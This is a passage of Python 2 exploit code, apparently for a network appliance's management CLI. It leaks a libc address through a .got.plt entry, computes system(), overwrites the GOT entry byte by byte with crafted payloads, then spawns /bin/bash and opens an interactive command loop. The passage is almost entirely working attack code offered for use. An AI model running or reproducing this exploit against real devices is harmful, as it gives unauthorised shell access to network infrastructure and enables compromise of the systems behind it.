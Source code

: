 ```
sendcommand("c")
time.sleep(1)
sendcommand("show version")
time.sleep(1)
sendcommand("connect local-mgmt")
time.sleep(1)
sendcommand("connect local-mgmt")
time.sleep(1)
sendcommand("show version")
time.sleep(5)
clearlog()

print "You should now see on the other terminal message simmilar to \"Error: Already in local-mgmt shell..\" "
print "[.] Dumping clicli::LocalMgmtSel::show(void*, base::String const&) addres from libsamvsh.so"
off3 = int(starting_point(),16)
print "    -> " + hex(off3)
print "[.] Calculating _ZN7clidcos15CommandEmulator16cli_param_filterEPKc .got.plt"
clidcosGOTPLT = off3+clidcos_step
print "    -> " + hex(clidcosGOTPLT)
print "[.] Dumping snprintf address from libc"
libc_printf = dump(clidcosGOTPLT+8,'s')[:4]
libc_tmp1_hex = binascii.hexlify(libc_printf[::-1])
libc_snprintf_addr =  int(libc_tmp1_hex, 16)
print "    -> " + hex(libc_snprintf_addr)
print "[.] Calculating libc system address"
libc_base_addr = libc_snprintf_addr - libc_emulator_snprintf
print "    -> libc base addr = " + hex(libc_base_addr)
libc_system_addr = libc_base_addr + libc_emulator_system
print "    -> system addr = " + hex(libc_system_addr)
print "\n[.] Sending payload.."

sendcommand(generate_payload(libc_system_addr)[3] + struct.pack("I", clidcosGOTPLT))
print generate_payload(libc_system_addr)[3]
sendcommand("show version")
time.sleep(1)

sendcommand(generate_payload(libc_system_addr)[2] + struct.pack("I", clidcosGOTPLT+1))
print generate_payload(libc_system_addr)[2]
sendcommand("show version")
time.sleep(1)

sendcommand(generate_payload(libc_system_addr)[1] + struct.pack("I", clidcosGOTPLT+2))
print generate_payload(libc_system_addr)[1]
sendcommand("show version")
time.sleep(1)

sendcommand(generate_payload(libc_system_addr)[0] + struct.pack("I", clidcosGOTPLT+3))
print generate_payload(libc_system_addr)[0]
sendcommand("show version")
time.sleep(1)

print "Sleep for fork adjustment.."
time.sleep(5)
sendcommand("ssh /bin/bash")
print "Ok please type your commands (type exit for exit)"
time.sleep(2)
while True:
    n = raw_input("> ")
    if 'exit' in n:
        break
    clearlog()
    sendcommand(n)
```